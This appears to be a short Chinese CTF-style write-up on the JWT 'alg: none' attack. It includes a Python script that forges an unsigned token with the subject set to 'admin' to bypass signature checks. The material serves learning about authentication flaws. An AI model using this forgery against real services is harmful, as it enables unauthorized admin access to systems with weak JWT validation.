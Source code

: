 # 知识点
**将签名算法改为none**
# 思路
用jwt.io进行解密，发现用的HS256加密方法<br />![image.png](./images/20231017_2349341955.png)<br />通过脚本将加密方法改为none，并把sub的值改为admin
```python
import jwt

# payload
token_dict = {
    "iss": "admin",
    "iat": 1660142773,
    "exp": 1660149973,
    "nbf": 1660142773,
    "sub": "admin",
    "jti": "85078c60917b94d0c5aef03995eec369"
}

headers = {
    "alg": "none",
    "typ": "JWT"
}
jwt_token = jwt.encode(token_dict,  # payload, 有效载体
                       "",  # 进行加密签名的密钥
                       algorithm="none",  # 指明签名算法方式, 默认也是HS256
                       headers=headers
                       # json web token 数据结构包含两部分, payload(有效载体), headers(标头)
                      )

print(jwt_token)

```
